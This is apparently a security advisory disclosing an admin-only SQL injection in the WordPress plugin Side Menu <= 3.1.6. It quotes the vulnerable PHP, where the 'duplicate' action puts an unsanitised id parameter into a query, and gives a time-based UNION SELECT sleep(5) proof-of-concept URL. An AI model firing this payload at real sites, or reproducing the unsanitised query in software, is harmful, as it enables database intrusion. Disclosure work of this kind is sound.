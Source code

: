 # Side Menu <= 3.1.6 - Authenticated (admin+) SQL Injection

## Description
    The menu update functionality of the plugin, available to Administrator users takes the id GET parameter and uses it into an SQL statement without proper sanitisation, validation or escaping, therefore leading to a SQL Injection issue.
    
## Affects Plugins
    Side Menu <= 3.1.6 (the latest version at this time)
    
## Author
    pang0lin@webray.com.cn inc
    
## Detail
    The issue is occured at file side-menu-lite/admin/partials/include-data.php. When the parameter $act equals to 'duplicate', the parameter id is derectly used by mysql select sql. 
```
if ( $act == "update" ) {
	$rec_id = absint( $_REQUEST["id"] );
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id         = $result->id;
		$title      = $result->title;
		$param      = unserialize( $result->param );
		$tool_id    = $id;
		$add_action = 2;
		$btn        = esc_attr__( 'Update', $this->plugin['text'] );
	}
} elseif ( $act == "duplicate" ) {
	$rec_id = $_REQUEST["id"];
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id    = "";
		$title = "";
		$param = unserialize( $result->param );
		$last  = $wpdb->get_col( "SELECT id FROM $data" );;
		$tool_id    = max( $last ) + 1;
		$add_action = 1;
		$btn        = esc_attr__( 'Save', $this->plugin['text'] );
	}
} else {
	$id         = "";
	$title      = "";
	$last  = $wpdb->get_col( "SELECT id FROM $data" );
	$tool_id    = !empty($last) ?  max( $last ) + 1 : 1;
	$param      = '';
	$add_action = 1;
	$btn        = esc_attr__( 'Save', $this->plugin['text'] );
}

```

## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=add-new&act=duplicate&id=0 union select 1,2,sleep(5)
Visit this page, it will sleep more than 5 seconds.

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu_sqli.png "Wordpress plugin side-menu sqli")
